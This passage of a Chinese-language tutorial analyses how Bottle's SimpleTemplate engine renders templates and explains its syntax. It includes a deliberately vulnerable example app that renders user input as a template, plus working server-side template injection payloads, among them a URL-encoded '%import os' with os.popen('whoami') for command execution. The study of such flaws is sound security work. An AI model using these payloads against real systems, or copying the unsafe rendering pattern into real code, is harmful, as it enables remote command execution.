            raise depr(0, 11, 'Unsupported template encodings.', 'Use utf-8 for templates.')
        parser = StplParser(source, encoding=encoding, syntax=self.syntax)
        code = parser.translate()
        self.encoding = parser.encoding
        return code

    def _rebase(self, _env, _name=None, **kwargs):
        _env['_rebase'] = (_name, kwargs)

    def _include(self, _env, _name=None, **kwargs):
        env = _env.copy()
        env.update(kwargs)
        if _name not in self.cache:
            self.cache[_name] = self.__class__(name=_name, lookup=self.lookup, syntax=self.syntax)
        return self.cache[_name].execute(env['_stdout'], env)

    def execute(self, _stdout, kwargs):
        env = self.defaults.copy()
        env.update(kwargs)
        env.update({
            '_stdout': _stdout,
            '_printlist': _stdout.extend,
            'include': functools.partial(self._include, env),
            'rebase': functools.partial(self._rebase, env),
            '_rebase': None,
            '_str': self._str,
            '_escape': self._escape,
            'get': env.get,
            'setdefault': env.setdefault,
            'defined': env.__contains__
        })
        exec(self.co, env)
        if env.get('_rebase'):
            subtpl, rargs = env.pop('_rebase')
            rargs['base'] = ''.join(_stdout)  #copy stdout
            del _stdout[:]  # clear stdout
            return self._include(env, subtpl, **rargs)
        return env

    def render(self, *args, **kwargs):
        """ Render the template using keyword arguments as local variables. """
        env = {}
        stdout = []
        for dictarg in args:
            env.update(dictarg)
        env.update(kwargs)
        self.execute(stdout, env)
        return ''.join(stdout)
```

根据最后的`return TEMPLATES[tplid].render(kwargs)`可以知道最终会调用到render函数，分析一下

```python
    def render(self, *args, **kwargs):
        """ Render the template using keyword arguments as local variables. """
        env = {}
        stdout = []
        for dictarg in args:
            env.update(dictarg)
        env.update(kwargs)
        self.execute(stdout, env)
        return ''.join(stdout)
```

先是创建了一个env字典用来存放所有模板变量和一个列表stdout用来收集模板渲染的输出，而后遍历所有的位置参数并将变量加入env中，最终 `env` 包含模板渲染所需的所有变量。

后面会调用execute函数，我们跟进看一下

```python
    def execute(self, _stdout, kwargs):
        env = self.defaults.copy()
        env.update(kwargs)
        env.update({
            '_stdout': _stdout,
            '_printlist': _stdout.extend,
            'include': functools.partial(self._include, env),
            'rebase': functools.partial(self._rebase, env),
            '_rebase': None,
            '_str': self._str,
            '_escape': self._escape,
            'get': env.get,
            'setdefault': env.setdefault,
            'defined': env.__contains__
        })
        exec(self.co, env)
        if env.get('_rebase'):
            subtpl, rargs = env.pop('_rebase')
            rargs['base'] = ''.join(_stdout)  #copy stdout
            del _stdout[:]  # clear stdout
            return self._include(env, subtpl, **rargs)
        return env
```

这里的可以看到两个预设函数include和rebase，include是用于在模板内部 **嵌入子模板**的，而rebase是用于实现模板继承的。

```python
   def _rebase(self, _env, _name=None, **kwargs):
        _env['_rebase'] = (_name, kwargs)

    def _include(self, _env, _name=None, **kwargs):
        env = _env.copy()
        env.update(kwargs)
        if _name not in self.cache:
            self.cache[_name] = self.__class__(name=_name, lookup=self.lookup, syntax=self.syntax)
        return self.cache[_name].execute(env['_stdout'], env)
```

*在 0.12 版中更改：*在此版本之前，`include()`和[`rebase()`](https://bottlepy.org/docs/dev/stpl.html#stpl.rebase)是语法关键字，而不是函数。接下来我们看看bottle模板引擎渲染中比较重要的几个语法

### Bottle模板引擎渲染语法

常规的我们还是先写个例子吧

```python
from bottle import Bottle, template, run, request

app = Bottle()

@app.route('/')
def index():
    return "Hello World!"


@app.route('/test')
def greet():

    user_name = request.query.name or "Hello Guest"

    return template(user_name)


if __name__ == "__main__":
    run(app, host="localhost", port=8080, debug=True)
```

这里的话会直接将用户的输入当成是模板去渲染

#### 内联表达式1

任何python表达式都允许在大括号内，只要它计算为字符串或具有字符串表示的东西，也就是我们常规的表达式语句

例如我们传入

```python
?name={{8*8}}
```

就会返回`8*8`的执行结果64

#### 内联表达式2

```
在 Bottle 的 SimpleTemplate 模板引擎中，{{!...}} 是一种 原样输出（raw output） 的语法，用于 不经过转义地输出内容
```

#### 嵌入python代码

我们举个例子

```python
%if name == 'World':
	<h1> Hello {{name}} </h1>
	<p> This is a test.</p>
%else:
	<h1>Hello {{name.title()}}！</h1>
	<p>How are you?</p>
%end
```

一行以%开头，表明这一行是python代码。它和真正的python代码唯一的区别，在于你需要显式地在末尾添加`%end`语句，表明一个代码块结束。

当然这里也可以直接导入模块

```python
%import os
{{os.popen('whoami').read()}}
```

需要注意的是，这里的话需要用一个换行去将`%`语句和`{{}}`表达式语句分开

```python
?name=%25import%20os%0A%7B%7Bos.popen('whoami').read()%7D%7D
```



当然前提是用户的输入直接被当成模板去渲染而不是那种类似拼接的方式

#### include()语法



使用指定的变量呈现子模板，并将结果文本插入到当前模板中。该函数返回一个字典，其中包含传递给子模板或在子模板中定义的局部变量

```python
include(template_name, **kwargs)
```

`template_name`：子模板名，可以是文件名或者字符串模板。

`**kwargs`：子模板的局部变量，会覆盖父模板同名变量。

#### rebase()语法

将当前模板标记为以后要包含到其他模板中。在呈现当前模板之后，其结果文本存储在一个名为base的变量中，并传递给base-template，然后呈现。
